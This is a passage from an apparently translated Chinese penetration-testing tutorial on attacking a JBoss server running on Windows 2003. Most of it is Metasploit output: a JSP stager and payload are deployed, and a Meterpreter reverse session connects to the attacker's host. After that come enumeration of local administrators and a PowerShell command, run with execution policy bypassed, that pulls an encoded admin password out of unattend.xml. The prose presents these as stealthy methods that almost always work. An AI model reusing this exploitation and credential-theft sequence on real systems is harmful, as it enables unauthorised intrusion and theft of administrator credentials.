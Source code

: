 ```text
[*] Attempting to automatically detect the architecture
[*] Automatically selected target: "Windows Universal" 
[*] Deploying stager
[*] Calling stager: /zUAfKRBBvtYsET/leNHaWyjhUmSLo.jsp 
[*] Uploading payload through stager
[*] Calling payload: /polZSMHIz/wUnOCfzZtVIa.jsp 
[*] Removing payload through stager
[*] Removing stager
[*] 192.168.1.70:1129 (UUID:c6980ba710d8ffe7/java=17/java=4/2016-12- 24T17:40:04Z) Staging Java payload ...
[*] Meterpreter session 1 opened (Front_Gun_IP:443 -> 192.168.1.70:1129) at 2016-12-24 18:40:05 +0100

meterpreter > getuid
Server username: jboss_svc
```

已经很接近了！**jboss\_svc**用户不具备管理员权限，这在运行JBOSS的Windows服务器上很少见。通常情况下，我们直接能获取到 SYSTEM 权限，看起来服务器做了某种方式的加固。

```text
meterpreter > shell 
Process 2 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.
C:\jboss-6.0.0.M1\bin>net localgroup "administrators" 

net localgroup "administrators" Members

-------------------------------------------------------
admin_svc 
Administrator
The command completed successfully.
```

进一步探测可以发现，这是一台 windows 2003 sp3 服务器，有三个本地用户。你的第一反应肯定是：“操作系统太老了，我们有 N 种姿势来获取管理员权限！”说的很对，但我们不可能总是这么幸运，所以接下来我会介绍一些获取 windows 服务器的经典方法。这些方法更快、更隐蔽，而且，99%的情况下都有效。

{% hint style="info" %}
**建议** 更懒的做法是，直接运行 /post/multi/recon/local\_exploit\_suggester 模块，来看看哪些方法适用于你的环境。
{% endhint %}

### 3.4.2 跌宕起伏

提权最基本的手段是查找特殊文件中的密码。比如，为了方便迁出新服务器，管理员往往会使用集中部署软件。管理员密码保存在部署软件使用的 unattend.xml 文件中。

```text
C:\jboss-6.0.0.M1\bin>powershell -exec bypass

PS> Get-Content "c:\windows\panther\unattend.xml" | Select-String "Password" -Context 2 -SimpleMatch

<Username>admin_svc</Username>
<Domain>WORKGROUP</Domain>
<Password>SABlAGwAbABvADUAbQBlAA==</Password>
</Credentials>
```
